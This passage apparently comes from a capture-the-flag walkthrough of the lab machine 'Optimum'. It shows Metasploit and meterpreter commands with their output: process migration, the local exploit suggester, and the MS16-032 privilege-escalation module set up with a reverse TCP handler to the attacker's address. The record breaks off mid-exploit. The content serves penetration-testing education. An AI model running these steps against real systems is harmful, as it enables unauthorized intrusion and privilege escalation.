 ```
 2568  2136  vmtoolsd.exe             x64   1        OPTIMUM\kostas  C:\Program Files\VMware\VMware Tools\vmtoolsd.exe
 2596  2136  hfs.exe                  x86   1        OPTIMUM\kostas  C:\Users\kostas\Desktop\hfs.exe
 2608  2236  cmd.exe                  x86   1        OPTIMUM\kostas  C:\Windows\SysWOW64\cmd.exe
 2664  2528  cmd.exe                  x86   1        OPTIMUM\kostas  C:\Windows\SysWOW64\cmd.exe
 2720  1844  cmd.exe                  x86   1        OPTIMUM\kostas  C:\Windows\SysWOW64\cmd.exe
 2748  2596  wscript.exe              x86   1        OPTIMUM\kostas  C:\Windows\SysWOW64\wscript.exe
 2832  2184  cmd.exe                  x64   1        OPTIMUM\kostas  C:\Windows\System32\cmd.exe
 2936  1404  conhost.exe              x64   1        OPTIMUM\kostas  C:\Windows\System32\conhost.exe

meterpreter > migrate 2136
[*] Migrating from 2236 to 2136...
[*] Migration completed successfully.
```

We can run the metasploit exploit suggester:
```
meterpreter > run post/multi/recon/local_exploit_suggester

[*] 10.10.10.8 - Collecting local exploits for x64/windows...
[*] 10.10.10.8 - 14 exploit checks are being tried...
[+] 10.10.10.8 - exploit/windows/local/bypassuac_dotnet_profiler: The target appears to be vulnerable.
[+] 10.10.10.8 - exploit/windows/local/bypassuac_sdclt: The target appears to be vulnerable.
```

However, none of the suggested exploits works (the exploit suggester is not very reliable). Based on the system information, we can try listing all available metasploit exploits at https://www.cvedetails.com/metasploit-modules/version-173070/Microsoft-Windows-Server-2012-R2.html.

After some trial and error, we find out that `ms16_032_secondary_logon_handle_privesc` should work. We set it up and run it:
```
msf5 exploit(windows/http/rejetto_hfs_exec) > use exploit/windows/local/ms16_032_secondary_logon_handle_privesc

msf5 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > set SESSION 8
SESSION => 8
msf5 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > set LHOST 10.10.14.55
LHOST => 10.10.14.55
msf5 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > run

[*] Started reverse TCP handler on 10.10.14.55:4444
[+] Compressed size: 1016
[!] Executing 32-bit payload on 64-bit ARCH, using SYSWOW64 powershell
[*] Writing payload file, C:\Users\kostas\AppData\Local\Temp\kbWVnCcUAgFI.ps1...
[*] Compressing script contents...
[+] Compressed size: 3600
[*] Executing exploit script...
	 __ __ ___ ___   ___     ___ ___ ___
	|  V  |  _|_  | |  _|___|   |_  |_  |
	|     |_  |_| |_| . |___| | |_  |  _|
	|_|_|_|___|_____|___|   |___|___|___|

	               [by b33f -> @FuzzySec]

[?] Operating system core count: 2
[>] Duplicating CreateProcessWithLogonW handle
[?] Done, using thread handle: 1348

[*] Sniffing out privileged impersonation token..

```